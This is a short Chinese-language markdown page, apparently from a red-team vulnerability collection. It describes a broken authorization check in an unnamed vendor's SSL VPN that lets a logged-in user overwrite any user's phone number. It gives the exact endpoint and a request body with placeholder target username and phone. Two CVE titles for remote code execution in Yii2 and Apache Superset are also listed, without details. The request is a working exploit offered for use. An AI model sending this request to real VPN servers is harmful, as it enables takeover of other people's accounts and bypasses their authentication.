 ### 某服SSL VPN修改任意账户手机号
> 修改手机号接口未正确鉴权导致越权覆盖任意用户的手机号码
> 
> 利用:需要登录账号
```angular2
https://<PATH>/por/changetelnum.csp?apiversion=1

newtel=TARGET_PHONE&sessReq=clusterd&username=TARGET_USERNAME&grpid=0&sessid=0&ip=127.0.0.1
```
![](images/hvv_41.png)

### 0day预警

> Yii2框架反序列化 RCE CVE-2020-15148
> 
> Apache Superset远程命令执行CVE-2020-13948



> 乾坤未定，你我皆是黑马